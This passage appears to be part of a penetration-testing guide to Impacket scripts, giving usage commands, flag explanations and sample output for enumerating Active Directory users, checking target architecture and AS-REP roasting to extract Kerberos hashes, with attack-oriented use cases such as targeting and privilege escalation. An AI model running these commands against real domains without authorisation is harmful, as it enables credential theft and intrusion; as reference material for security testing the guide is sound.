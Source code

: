**Use Case**: Finds delegation misconfigurations for privilege escalation.[](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

### 7. GetADUsers.py
**Purpose**: Enumerates Active Directory users and their attributes.

**Usage Example**:
```bash
impacket-GetADUsers -dc-ip 192.168.1.100 -all example.local/user1:Password123
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-all`: Retrieves all user attributes (default: basic attributes).
- `example.local/user1:Password123`: Credentials.

**Example Output**:
```
User: user1@example.local, LastLogon: 2025-07-21
User: user2@example.local, LastLogon: 2025-07-20
```

**Use Case**: Gathers user information for targeting.

### 8. getArch.py
**Purpose**: Determines the OS architecture of target systems via MSRPC.

**Usage Example**:
```bash
impacket-getArch -target 192.168.1.101
```
**Flag Explanations**:
- `-target 192.168.1.101`: Target machine IP or hostname.

**Example Output**:
```
[*] Target architecture: x64
```

**Use Case**: Identifies system architecture for payload compatibility.[](https://tools.thehacker.recipes/impacket)

### 9. GetNPUsers.py
**Purpose**: Identifies accounts vulnerable to AS-REP roasting and extracts hashes.

**Usage Example**:
```bash
impacket-GetNPUsers -dc-ip 192.168.1.100 -usersfile users.txt -no-pass example.local/
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-usersfile users.txt`: File with list of usernames to check.
- `-no-pass`: Attempts unauthenticated enumeration.
- `example.local/`: Domain name (no credentials for unauthenticated mode).

**Example Output**:
```
user2@example.local:$krb5asrep$23$user2@EXAMPLE.LOCAL:...
```
